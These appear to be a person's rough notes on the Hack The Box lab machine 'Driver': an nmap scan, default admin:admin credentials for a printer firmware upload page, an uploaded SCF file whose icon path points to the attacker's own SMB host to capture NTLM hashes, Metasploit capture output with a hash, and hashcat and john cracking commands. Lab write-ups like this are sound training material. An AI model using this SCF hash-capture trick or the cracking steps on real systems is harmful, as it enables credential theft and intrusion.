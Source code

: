 Box info:
Windows
IP 10.10.11.106

**Enumeration:: **
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 18h51m14s, deviation: 0s, median: 18h51m13s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-01-07T01:30:02
|_  start_date: 2022-01-07T01:14:57

**dir::**
    + index.php, /images/, /fw_up.php(upload section)
        :requesting UN:PW "MFP firmware Update Center: enter PW for admin"
            + ::UN&PW admin:admin
            + download index.png
                + steghide:: doesnt work on .png
    + fw_up.php
        HTB DesignJet, Ecotank, Laserjet Pro, Mono
            + able to upload on any printer.
            + "GET /fw_up.php?msg=SUCCESS HTTP/1.1"
            + ***Where is upload location?***

**nikto::** 
    + php/7.3.25 
    + Server: Microsoft-IIS/10.0
    + default creds : admin:admin

smb is vuln to scf scripts:: see scf_file_attacks
+ msf6> use auxiliary/server/capture/smb
+ upload @test.scf script::
```
[Shell]
Command=2
IconFile=\\10.10.16.2\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
+ capture hashes and run hashcat:: SEE:: ![weak_msf_ntlm2_hash](Screenshots/Driver_smb_scf_upload.png)
  + msf6 auxiliary(server/capture/smb) > [*] SMB Captured - 2022-01-06 07:29:15 -0500                               
    NTLMv2 Response Captured from 10.10.11.106:49450 - 10.10.11.106
    USER:tony DOMAIN:DRIVER OS: LM:
    LMHASH:Disabled
    LM_CLIENT_CHALLENGE:Disabled
    NTHASH:ad9b22a109fc9748b005176a30a7f24b
    NT_CLIENT_CHALLENGE:0101000000000000acc1da0d9703d801a0d96d845d3f38d300000000020000000000000000000000

**responder works much better than msfconsole::**  see::![proper_ntlmv2_hash](Screenshots/driver_scf_smb.png)

+ john --format=nt hash.txt
+ hashcat -m 1000 -a 3 hash.txt::

+Creds:: tony or driver?:

$ rpcdump.py 10.10.11.106 -p 135 :: provides multiple vuln services in hacktricks                                                      1 ⨯

[](https://book.hacktricks.xyz/pentesting/135-pentesting-msrpc)
[scf_file_attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
[cracking_windows_hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)